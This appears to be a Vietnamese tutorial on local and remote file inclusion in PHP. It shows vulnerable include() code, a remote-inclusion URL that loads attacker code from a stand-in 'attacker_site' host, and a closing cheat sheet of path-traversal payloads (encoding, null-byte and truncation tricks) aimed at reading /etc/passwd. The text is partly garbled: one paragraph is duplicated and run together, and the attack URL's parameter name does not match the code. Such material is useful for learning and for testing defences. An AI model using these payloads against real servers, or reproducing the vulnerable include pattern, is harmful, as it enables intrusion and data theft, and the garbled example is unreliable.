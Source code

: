 Trong một số trường hợp đặc biệt một phần mở rộng mặc định sẽ được thêm vào thông tin được đưa lên từ trình duyệt trước khi đưa vào hàm Include(). Cách tốt nhất tránh những phần mở rộng này là sử dụng byte rỗng kết thúc “%00” để vượt qua. Đây là cách được các tin tặc sử dụng để thực hiện hành vi độc hại và truy cập bất cứ kiểu file nào.
### Remote file inclusion
RFI cho phép tin tặc include và thực thi trên máy chủ mục tiêu một tệp tin được lưu trữ từ xa. Tin tặc có thể sử dụng RFI để chạy một mã độc trên cả máy của người dùng và phía máy chủ. Ảnh hưởng của kiểu tấn công này thay đổi từ đánh cắp tạm thời session token hoặc các dữ liệu của người dùng cho đến việc tải lên các webshell, mã độc nhằm đến xâm hại hoàn toàn hệ thống máy chủ.
#### Lỗ hổng Remote file inclusion trong PHP:
PHP có nguy cơ cao bị tấn công RFI do việc sử dụng lệnh include rất nhiều và thiết đặt mặc định của server cũng ảnh hưởng một phần nào đó. Để bắt đầu chúng ta cần tìm nơi chứa file include trong ứng dụng phụ thuộc vào dữ liệu đầu vào người dùng.RFI cho phép tin tặc include và thực thi trên máy chủ mục tiêu một tệp tin được lưu trữ từ xa. Tin tặc có thể sử dụng RFI để chạy một mã độc trên cả máy của người dùng và phía máy chủ. Ảnh hưởng của kiểu tấn công này thay đổi từ đánh cắp tạm thời session token hoặc các dữ liệu của người dùng cho đến việc tải lên các webshell, mã độc nhằm đến xâm hại hoàn toàn hệ thống máy chủ.1. Một trong những nơi chứa lỗ hổng có thể như ví dụ dưới đây, giá trị của ‘testfile’ được cung cấp bởi người dùng:
`www.victim_site.com/abc.php?testfile=example`
2. Mã nguồn PHP chứa lỗ hổng:
`$test = $_REQUEST[“testfile”];Include($test.”.php”);`
3. Thông số của ‘testfile’ được lấy từ phía người dùng. Đoạn mã sẽ lấy giá trị ‘testfile’ và trực tiếp include nó vào file PHP.
4. Sau đây là ví dụ về một hướng tấn công được sử dụng đối với đoạn mã trên:
`www.victim_site.com/abc.php?test=https://www.attacker_site.com/attack_page`
File “attack_page” được bao hàm vào trang có sẵn trên máy chủ và thực thi mỗi khi trang “abc.php” được truy cập. Tin tặc sẽ đưa mã độc vào “attack_page” và thực hiện hành vi độc hại.

## Một số cách khai thác:

### Traversal sequences stripped non-recursively:

https://victim_site/home.php?file=....//....//....//etc/passwd
https://victim_site/home.php?file=....\/....\/....\/etc/passwd
http://victim_site/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

### Null byte (%00):

https://victim_site/home.php?file=../../../../etc/passwd%00

### Encoding:

https://victim_site/home.php?file=..%252f..%252f..%252fetc%252fpasswd
https://victim_site/home.php?file=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
https://victim_site/home.php?file=%252e%252e%252fetc%252fpasswd
https://victim_site/home.php?file=%252e%252e%252fetc%252fpasswd%00

### Path and dot truncation:

https://victim_site/home.php?file=../../../etc/passwd............[ADD MORE]
https://victim_site/home.php?file=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
https://victim_site/home.php?file=../../../etc/passwd/./././././.[ADD MORE] 
https://victim_site/home.php?file=../../../[ADD MORE]../../../../etc/passwd
